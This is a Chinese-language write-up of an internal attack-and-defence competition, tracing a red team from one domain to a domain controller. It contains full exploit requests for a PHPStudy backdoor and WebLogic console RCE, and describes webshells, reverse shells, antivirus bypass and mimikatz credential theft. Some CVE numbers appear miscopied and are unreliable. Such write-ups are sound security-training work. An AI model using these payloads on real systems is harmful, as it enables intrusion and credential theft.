

# 奇安信攻防社区 - 一次内部攻防对抗比赛记录

### 一次内部攻防对抗比赛记录

前段时间公司内部举行了为期一周的攻防对抗比赛，在这里分享下我们队的攻击过程，如果有不足之处还望各位大佬多多包涵。

# 0x00 前言

这次比赛的靶标是拿到商业计划书，给的入口信息只有一个域名 www.xxx-qq.com

# 0x01 域名信息搜集

在线扫描子域名，发现 4 个子域名及 4 个 IP：  
  
收集到子域名后，使用 fscan 扫一波信息 (忘截图了)，接着开始打点

# 0x02 172.31.40.136 PHPStudy 命令执行

扫描目录发现 PHP 探针文件，其中 l.php 中暴露了绝对路径，并且发现使用了 PHPstudy  
  
  
从 l.php 可以看出探针版本是较早的，就联想到之前的 PHPStudy 后门事件，然后就试着打了一发 POC，成功执行了命令：

```php
GET /phpinfo.php HTTP/1.1

Host: 172.31.40.136:8080

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8

X-Forwarded-For: 172.31.40.136

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip,deflate

Accept-Charset: ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7

Connection: close

Upgrade-Insecure-Requests: 1
```


此时能够执行命令，又知道 web 绝对路径，利用命令执行写入 webshell，这里用的是 powershell 命令写入，更简便的方法是利用 PHP 写文件函数写入：




写入成功后使用蚁剑连接 webshell：


# 0x03 172.31.40.235 文件上传+nginx 解析漏洞

扫描目录，发现文件上传页面：


刚开始以为这里只是一个简单的文件上传漏洞，结果上传的时候发现有白名单限制，没绕过去，就决定再搜集下信息。然后发现使用了 nginx，并且版本为 1.15.11，此时联想到了这个版本存在解析漏洞，在文件后面加上.php 就会把这个文件解析成 PHP 文件


**文件上传+Nginx 解析漏洞利用：**

制作图片马上传，然后利用解析漏洞 getshell


蚁剑连接：

webshell 的为[http://172.31.40.235:8080/upload/tiantian.jpg/.php](http://172.31.40.235:8080/upload/tiantian.jpg/.php)


# 0x04 172.31.35.129 ssh 弱口令

刚开始打算从 web 侧进行突破，但是迟迟没有进展，就决定爆破一波弱口令，就发现了一个 SSH 弱口令账号 test/123456


目前已经拿到了 DMZ 区的 3 个权限，准备搭个 frp 代理出来。因为拿到了 172.31.35.129 这台主机的 SSH 账号和密码，这样的话维权也比较方便，就在 172.31.35.129 上搭建了 frp 代理


本地连上 frp 代理后，同样使用 fscan 对 C 段进行扫描，然后快速打点：


# 0x05 192.168.11.26 weblogic CVE-2020-12882 命令执行

发现 192.168.11.26 是 weblogic，然后打了一波 weblogic 命令执行 EXP，发现存在 CVE-2020-12882 漏洞

```php
GET /console/css/%252e%252e%252fconsolejndi.portal?test\_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String\[\]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String\[\]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String\[\]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt(); HTTP/1.1

Host: 192.168.11.26:7001

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8

cmd: cat /etc/passwd

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

X-Forwarded-For: 172.31.40.99

Accept-Encoding: gzip, deflate

Connection: close

Cookie: ADMINCONSOLESESSION=WHqrvH8XRq2j2nId4ceZgd2kL6Efx8jIdDF5dORfgPHTtTIriMAe!1051469142

Upgrade-Insecure-Requests: 1

Cache-Control: max-age=0
```


执行命令反弹 shell 失败，猜测被 waf 拦截，然后通过下载 sh 文件执行，成功反弹 shell：


# 0x06 192.168.11.124 后台文件上传

192.168.11.124 上是一个 Textpattern CMS，前台是一个登录页面

扫描目录发现备份文件 backup.zip：


在 config.php 中发现账号和密码：


使用账号密码登录后台：


后台可以直接上传 PHP 文件，直接上传冰蝎马：


冰蝎连接 webshell：


拿到的以上主机，发现都不是 NAT，没找到在办公区的主机。猜想是因为信息收集工作不到位，存活主机没搜集全，然后在已经获得权限的主机上收集其他存活主机，

在 192.168.11.27(172.31.35.129) 这台主机上查看 arp 列表，发现几台之前未发现的主机，猜想是因为之前用 fscan 扫描时没加上-np（不使用 ping）的原因


使用 fscan 对新发现的主机进行简单扫描，然后进行利用

# 0x07192.168.11.180 fastjson 远程命令执行

192.168.11.180 入口是一个登录页面，抓包发现是 json 格式，尝试打一波 fastjson 远程命令执行，发现 dnslog 有解析记录（忘截图了）。在写入 webshell 时折腾了很久，因为找不到 web 绝对路径，然后就只能不断的执行命令翻目录，最后终于找到了绝对路径


写入 base64 编码后的 jsp webshell：


使用 certuil 进行解码：


蚁剑连接 webshell:


# 0x08 192.168.11.12 redits 弱密码 getshell

使用 fcan 单个扫描发现 redits 弱密码 admin123，同时发现开了 8080 端口


尝试反弹 shell 未果，着手从 8080 端口入手，扫描目录发现 test.php


访问 test.php 发现为 phpinfo 页面，泄露了网站绝对路径


然后利用 redits 写入 webshell：


蚁剑成功连接 webshell：


部分命令无回显，利用 webshell 上传 nc.exe 反弹 shell，nc 反弹的 shell 可以绕过杀软进程链拦截


成功返回 shell 并发现了 172 网段


在 192.168.11.12 这台主机上搭建代理


再次利用 fscan 工具对 172 网段进行扫描


# 0x09 172.32.10.30 SMB 共享泄露密码

爆破 C 段 445 和 139 端口，发现 172.32.10.30 存在 smb 未授权，用 smbclient 连接，在文件中发现账号和密码


使用 psexec 和 smbexec 连接失败，应该是被杀软拦截了，最后发现使用 wmi 可以远程执行命令


# 0x10 172.32.10.59 Apache log4j2 远程命令执行

发现 172.32.10.59 在端口 8080、7777 和 8899 开放了 web 服务，但访问首页内容基本没啥信息。扫描目录在 172.32.10.59:7777/test.txt 中发现提示，刚开始时并不知道这是一个提示，后面才意识到这可能是一个提示 (23333333)


加上路径 publiccms 扫描 8080、7777、8899 端口上的目录，在 8080 上发现 publiccms 文件路径：


访问登录页面使用弱口令登入未果，因为对这个 CMS 不了解，就尝试在 github 上搜一下源码，发现最新版有关于 log4j 的更新  
项目地址：[https://github.com/sanluan/PublicCMS/tree/master/publiccms-parent](https://github.com/sanluan/PublicCMS/tree/master/publiccms-parent)


在登录页面尝试 log4j2 远程命令执行，发现 dnslog 有记录

  
使用命令回显 payload：


发现主机上有火绒，直接添加用户被拦截，先执行命令将 net1.exe 复制为 aaa.txt

  
执行 powershell 命令绕过火绒添加用户，空密码 (更好的方法是激活 guest 用户，但当时我忘记将 guest 用户添加到管理组了，就无法远程登陆，后面才反应过来)


修改密码，并添加到管理组：


远程桌面，发现 RDP 端口不是 3389，扫一波全端口，发现端口 33389，顺利进入远程桌面


远程桌面后上线 CS，搜集本地信息，发现 RDP 连接记录：


尝试在 CS 上执行 mimikatz 命令破解 RDP 连接密码，但由于版本原因报错了，之后上传到本地 mimikatz 破解连接密码  
得到域用户名：dev\\user02 密码：1QvNpiXSVR


远程 172.32.10.234 桌面，发现 10 网段


简单域信息搜集，域名 dev.corp1.com，域控 IP 10.5.12.248


发现主机不出网，域内有 AppLocker 限制，但可以执行 dll。拿到的域账号权限很低，无法登录其他主机。在 172.32.10.59 上搭建会话中转，然后生成 beacon.dll 文件执行上线 CS


# 0x11 10.5.12.248 (DEV01)

利用 CS 会话搭建 socks4a 代理后利用 CVE-2021-42887 域用户提权漏洞打域控：


利用 CVE-2021-42887 域用户提权漏洞打域控后，当时打成功后没有及时进行权限维持和利用，截完图就下班了，第二天发现打不了了，因为机器账户已经达到限制，很可惜。然后尝试使用其他域用户提权漏洞打均没有成功，然后接下来我的思路是绕过域内的 AppLocker 限制提权，结果一直未成功，最后因为时间原因不得不到此为止。

# 0x12 总结

这次攻防比赛感觉入口点比较简单，难点在于后面的域渗透，在这期间我们不断转换思路，前期的思路是快速打点，突破网段隔离。到办公区后发现从 web 侧突破较难，就开始中注重本机的信息搜集，然后横向利用。
